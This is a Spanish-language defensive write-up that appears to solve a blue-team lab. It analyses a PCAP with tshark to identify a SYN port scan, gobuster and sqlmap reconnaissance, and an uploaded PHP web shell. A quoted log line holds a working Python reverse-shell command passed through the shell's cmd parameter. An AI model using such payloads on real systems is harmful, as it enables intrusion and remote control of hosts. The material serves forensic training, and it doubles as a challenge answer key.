

Scenario

The SOC received an alert in their SIEM for ‘Local to Local Port Scanning’ where an internal private IP began scanning another internal system. Can you investigate and determine if this activity is malicious or not? You have been provided a PCAP, investigate using any tools you wish.

1. What is the IP responsible for conducting the port scan activity?

Para esto podemos aplicar el siguiente filtro con tshark: 

```bash 
┌──(kali㉿kali)-[~/blue-labs/webshell]
└─$ tshark -r BTLOPortScan.pcap -Y "tcp.flags.syn==1 && tcp.flags.ack == 0" -T fields -e ip.src | sort | uniq -c
      3
   1237 10.251.96.4
      4 10.251.96.5
      3 172.20.10.2
     37 172.20.10.5
```

También podemos determinar esta ip `10.251.96.4` en la parte de `statistics>conversations`. 

2. What is the port range scanned by the suspicious host?

Esto podemos hacerlo facilmente con thsark: 

```bash 
┌──(kali㉿kali)-[~/blue-labs/webshell]
└─$ tshark -r BTLOPortScan.pcap -Y "tcp.flags.syn==1 && tcp.flags.ack == 0 && ip.src==10.251.96.4" -T fields -e tcp.dstport | sort -n | tail -n 1
1024

┌──(kali㉿kali)-[~/blue-labs/webshell]
└─$ tshark -r BTLOPortScan.pcap -Y "tcp.flags.syn==1 && tcp.flags.ack == 0 && ip.src==10.251.96.4" -T fields -e tcp.dstport | sort -n > porst.txt

┌──(kali㉿kali)-[~/blue-labs/webshell]
└─$ head -n 1 porst.txt
1

┌──(kali㉿kali)-[~/blue-labs/webshell]
└─$ tail -n 1 porst.txt                                                                                                  1024
```

3. What is the type of port scan conducted?

Ya vimos que se realiza un escaneo `TCP SYN`, en el que se envía únicamente un paquete SYN y, para no completar el handshake TCP, no envía el ACK final, esto genera menos tráfico y deja menos rastros en los registros del sistema remoto.

4. Two more tools were used to perform reconnaissance against open ports, what were they?

Para esto podemos filtrar por el user-agent. 

```bash 
┌──(kali㉿kali)-[~/blue-labs/webshell]
└─$ tshark -r BTLOPortScan.pcap -Y "http" -T fields -e http.user_agent | sort | uniq

Apache/2.4.29 (Ubuntu) (internal dummy connection)
gobuster/3.0.1
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.146 Safari/537.36
Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
sqlmap/1.4.7#stable (http://sqlmap.org)
```

5. What is the name of the php file through which the attacker uploaded a web shell?

Revisando las peticiones post, podemos ver que una hace referencia a un fichero php: 

 

6. What is the name of the web shell that the attacker uploaded?

Filtrando por peticiones http con el siguiente comando podemos encontrar un fragmento interesante: 

```bash 
tshark -r BTLOPortScan.pcap -Y "http && http.request.method == GET " | grep -i "\.php"
<SNIP>
16121 562.475632157  10.251.96.4 49934 10.251.96.5  80 HTTP 486 GET /uploads/dbfunctions.php HTTP/1.1
16134 568.433006846  10.251.96.4 49938 10.251.96.5  80 HTTP 455 GET /uploads/dbfunctions.php?cmd=id HTTP/1.1
16144 573.571056929  10.251.96.4 49940 10.251.96.5  80 HTTP 459 GET /uploads/dbfunctions.php?cmd=whoami HTTP/1.1
16201 672.982972093  10.251.96.4 49942 10.251.96.5  80 HTTP 706 GET /uploads/dbfunctions.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.251.96.4%22,4422));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 HTTP/1.1
<SNIP>
```

claramente está usando `dbfunctions.php`

7.  What is the parameter used in the web shell for executing commands?

vemos que el valor de `cmd` es el comando a ejecutar. 

8. What is the first command executed by the attacker?

El primero es `id`, comando usando comunmente por los atacantes para reconocer el sistema accedido. 

9. What is the type of shell connection the attacker obtains through command execution?

Porel último comando ejecutado, vemos un patrón común para conexiones reversar. 

10. What is the port he uses for the shell connection?

4422
